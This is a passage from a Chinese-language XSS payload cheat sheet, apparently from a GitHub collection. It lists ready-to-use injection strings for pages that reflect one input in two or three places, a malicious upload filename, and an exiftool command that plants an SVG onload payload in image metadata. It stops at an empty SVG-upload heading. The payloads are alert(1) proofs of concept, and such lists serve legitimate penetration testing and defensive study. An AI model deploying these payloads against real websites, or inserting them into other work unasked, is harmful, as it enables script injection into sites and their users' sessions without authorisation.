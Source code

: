 

## 多重反射HTML注入 - 双重反射（单一输入）

**利用同一网页上的多重反射（即同一输入在页面的多个位置被反射）来实现攻击**

```JavaScript
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```



## 多重反射HTML注入 - 三重反射（单一输入）

**利用同一网页上的多重反射（即同一输入在页面的多个位置被反射）来实现攻击**

```javascript
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```



## 多重反射HTML注入 - 双重与三重反射

**利用同一网页上的多重反射（即同一输入在页面的多个位置被反射）来实现攻击**

```javascript
p=<svg/1='&q='onload=alert(1)>
p=<svg 1='&q='onload='/*&r=*/alert(1)'>
q=<script/&q=/src=data:&q=alert(1)>
```



## 文件上传注入 - 文件名

**当上传的文件名在目标页面的某个位置被反射时使用**

```javascript
"><svg onload=alert(1)>.gif
```



## 文件上传注入 - 元数据

**当上传文件的元数据在目标网页某个位置被反射时使用。此技术利用命令行工具`exiftool`($ 是终端提示符)，`exiftool`可以设置任何元数据字段**

```
$ exiftool -Artist='"><svg onload=alert(1)>' xss.jpeg
```



## 文件上传注入 - SVG文件
